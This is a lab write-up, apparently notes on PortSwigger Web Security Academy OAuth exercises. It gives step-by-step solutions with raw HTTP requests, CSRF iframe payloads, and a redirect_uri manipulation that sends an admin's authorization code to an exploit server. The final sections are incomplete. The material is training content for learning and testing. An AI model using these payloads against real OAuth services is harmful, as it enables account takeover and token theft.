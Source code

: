 # OAuth 2.0 authentication vulnerabilities

### >> 1. Authentication bypass via OAuth implicit flow
> This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the client application makes it possible for an attacker to log in to other users' accounts without knowing their password. To solve the lab, log in to Carlos's account. His email address is carlos@carlos-montoya.net. You can log in with your own social media account using the following credentials: wiener:peter.`

Solution: 
- Change the payload to reflect the email address and username of Carlos
````http
POST /authenticate HTTP/1.1
Host: ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net
Cookie: session=AYlXg9S3SS3Yb7OjYfXNTGl8gFqgRvdt
Content-Length: 111
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"email":"carlos@carlos-montoya.net","username":"carlos","token":"tY2Y8c57C6kHCy8X3BxnE4Hm3YoJyeOfMuhjlkFSQeb"}
````

### >> 2. Lab: Forced OAuth profile linking

>> This lab gives you the option to attach a social media profile to your account so that you can log in via OAuth instead of using the normal username and password. Due to the insecure implementation of the OAuth flow by the client application, an attacker can manipulate this functionality to obtain access to other users' accounts. To solve the lab, use a CSRF attack to attach your own social media profile to the admin user's account on the blog website, then access the admin panel and delete Carlos. The admin user will open anything you send from the exploit server and they always have an active session on the blog website. You can log in to your own accounts using the following credentials: Blog website account: wiener:peter Social media profile: peter.wiener:hotdog

- The request sends the authorization code to the /oauth-login `redirect_uri`
- There is no `state` parameter in the oauth, so it might be vulnerable to CSRF
````
https://oauth-ac4e1f2d1eaf72afc0ae569802f400e3.web-security-academy.net/auth?client_id=j2ba7uqsy1y35kw1wmd5o&redirect_uri=https://ac0b1f681ee77200c0b65677005800f5.web-security-academy.net/oauth-login&response_type=code&scope=openid%20profile%20email
````

- Run the first login complete and then click to attach a social profile again, but now with interception on on burp
- Drop this request and copy the URL; perform logout
- Create a iframe object and delivery it to the victm using the Exploit server
````html
<iframe src="https://ac0b1f681ee77200c0b65677005800f5.web-security-academy.net/oauth-linking?code=LTpkSauiz5Y_iiFdFkmU7jTvtADFySL_sOGqSWMgysp"></iframe>
````
- Click now in Login with Social Media and delete the Carlos user to complete the lab

### >> 3. Lab: OAuth account hijacking via redirect_uri

>> This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.  To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos. The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service. You can log in with your own social media account using the following credentials: wiener:peter.

- There is a redirect_url vulnerability where you can change the destination of the callback.

````http
GET /auth?client_id=ezdeqti0mlvmnntgt5fcu&redirect_uri=https://exploit-ac2b1fd61eca7273c0797dda01610022.web-security-academy.net&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-ac3a1f561e1b7240c0f97dcb023a00dd.web-security-academy.net
Cookie: _session=YqBOphL7KtRbtBcp4cgil; _session.legacy=YqBOphL7KtRbtBcp4cgil
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://acad1f4d1e6072bec0507d00006d00e4.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


````

- Insert a iframe object with the redirect_url changed

````html
<iframe src="https://oauth-ac3a1f561e1b7240c0f97dcb023a00dd.web-security-academy.net/auth?client_id=ezdeqti0mlvmnntgt5fcu&redirect_uri=https://exploit-ac2b1fd61eca7273c0797dda01610022.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>
````

- The callback returns a code to the webserver (controlled by the attacker)

````apache
172.31.30.114   2022-05-06 17:36:28 +0000 "GET /?code=E-byTvzsUdz-fhc2hWBYqFs7mJiEf2OvWchcO2dEEVL HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36"
````

- Use the code in a new login session

````http
GET /oauth-callback?code=E-byTvzsUdz-fhc2hWBYqFs7mJiEf2OvWchcO2dEEVL HTTP/1.1
Host: acad1f4d1e6072bec0507d00006d00e4.web-security-academy.net
Cookie: session=FEmgoUPOnicODVY4VMMdZRbz8ozTJ570
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://acad1f4d1e6072bec0507d00006d00e4.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


````

- And delete the user Carlos to complete the exercise

### >> 4. Lab: Stealing OAuth access tokens via an open redirect

> This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application. To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.  Note: You cannot access the admin's API key by simply logging in to their account on the client application. The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service. You can log in via your own social media account using the following credentials: wiener:peter.

4.1 redirect_uri

````
GET /auth?client_id=q7trlt3x9g52oztmwth38&redirect_uri=https://acc51f911fc90fa2c0cf642f00de002a.web-security-academy.net/oauth-callback&response_type=token&nonce=1051619115&scope=openid%20profile%20email HTTP/1.1
````

- Encode as URL
````
/oauth-callback
%2f%6f%61%75%74%68%2d%63%61%6c%6c%62%61%63%6b
````

- 
````
GET /auth?client_id=q7trlt3x9g52oztmwth38&redirect_uri=https://acc51f911fc90fa2c0cf642f00de002a.web-security-academy.net%2f%6f%61%75%74%68%2d%63%61%6c%6c%62%61%63%6b@exploit-ac531ff11f6f0f8bc0d7645701760069.web-security-academy.net&response_type=token&nonce=1051619115&scope=openid%20profile%20email HTTP/1.1
````

4.2 steal token



### >> 5.
